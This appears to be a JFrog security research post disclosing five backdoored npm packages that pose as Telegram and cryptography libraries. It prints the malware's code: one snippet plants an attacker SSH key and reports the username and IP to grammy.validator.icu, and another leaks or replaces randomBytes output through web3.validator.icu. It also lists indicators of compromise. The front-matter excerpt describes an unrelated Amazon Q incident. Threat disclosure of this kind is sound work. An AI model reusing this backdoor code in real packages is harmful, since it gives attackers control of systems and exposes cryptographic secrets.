 ```yaml
---
excerpt: Amazon Q VS Code extension v1.84.0 was compromised with a malicious commit that could trigger destructive AI-generated commands.
title: Five Backdoored Cryptography Packages Operating Undetected for Six Months
date: "October 20, 2025"
description: "JFrog Security Research Team"
tag: "Real Time Post"
img: /img/RealTimePostImage/post_thumbnail1.png
type: realTimePost
minutes: '1'

---
```


# Five Backdoored Cryptography Packages Operating Undetected for Six Months

Our research team found a npm user jamestonytrump who published five malicious packages containing backdoors. One of them, the npm package “grammy-tools” masquerades as a legitimate library for Telegram bots. The malicious software adds a public key to `~/.ssh/authorized_keys` and transmits the username and external IP address to `grammy[.]validator[.]icu`. This action provides an attacker with complete control over the compromised system.

![](/img/RealTimePostImage/post/npm_backdoor.png)

```javascript
const publicKey = `ssh-rsa AAAAB3NzaC1yc2EAAAADAQ`
const username = os.userInfo().username;
const ipAddress = await getBotId();
const fullPublicKey = `${publicKey}`;
const sshDir = path.join(os.homedir(), '.ssh');
const authorizedKeysPath = path.join(sshDir, 'authorized_keys');
fs.writeFileSync(authorizedKeysPath, `${fullPublicKey}\n`, { mode: 0o600 });
https.get(`https://grammy.validator.icu/v1/check?ip=${ipAddress}&name=${username}&type=${types}`, (res1) => {   
res1.on('data', () => { });
});
```

The additional four packages: grammy-guards, crypter-validater, crypt-validater,   
node-crypto-validater follow the same logic of adding backdoor to the attacked system. Each of them mimics as cryptographic utility, exporting functions typical of legitimate crypto libraries:

```javascript

import * as crypto from "crypto";
export declare function validate(content: any): any;
export declare function createPrivateKey(key: crypto.PrivateKeyInput | string | Buffer | crypto.JsonWebKeyInput, callback?: any): any;
export declare function randomBytes(byretes: number, callback?: any): any;
export declare function checkPrime(value: crypto.LargeNumberLike, callback?: any): any;
```

At first glance, this appears to be a thin wrapper over Node’s built-in crypto module. The only difference it makes to the legitimate cryptographic library is the addition of a backdoor in one of the functions. The function randomBytes contains a code sending the entropy of the generated random values to an attacker-controlled server. The backdoor works differently, depending on the mode in which the original function was called. In blocking mode, it returns the result immediately, so applications receive randomness even as the attacker quietly captures it. But if the function was called in asynchronous mode with a callback, it replaces the result with the bytes returned by the server.

Either case is catastrophic because random entropy is the core of any cryptographic system. A leak of raw entropy makes any secret, private key, nonce, or other cryptographic data produced by the infected system compromised.  

```javascript
function check_validator(bytes, callback) {
   if (fetch('https://web3.validator.icu/v1/check', {
           method: 'POST',
           body: JSON.stringify({
               action: 'validator',
               content: bytes
           })
       }).then(res => {
      callback && res.json().then(res => {
      res.success ? callback(null, bytes):callback(res.message);
           });
       }) {
       return true;
   }
}

function randomBytes(size, callback) {
   const result = crypto.randomBytes(size).toString('hex');
   return check_validator(result, callback) ? result : null;
}
```

We reported these packages to the npm security team and added information about these packages to [JFrog Xray](http://jfrog.com/xray) to provide an added layer of security for our customers.

Check out the [JFrog Security Research](https://research.jfrog.com/) center for more information about the latest CVEs, vulnerabilities, and fixes to keep your software supply chain secure.

## IOC

Domain  
`web3[.]validator[.]icu`  
Packages

* grammy-tools \- XRAY-736302  
* grammy-guards XRAY-736301  
* crypter-validater XRAY-736304  
* crypt-validater XRAY-736300  
* node-crypto-validater XRAY-736303
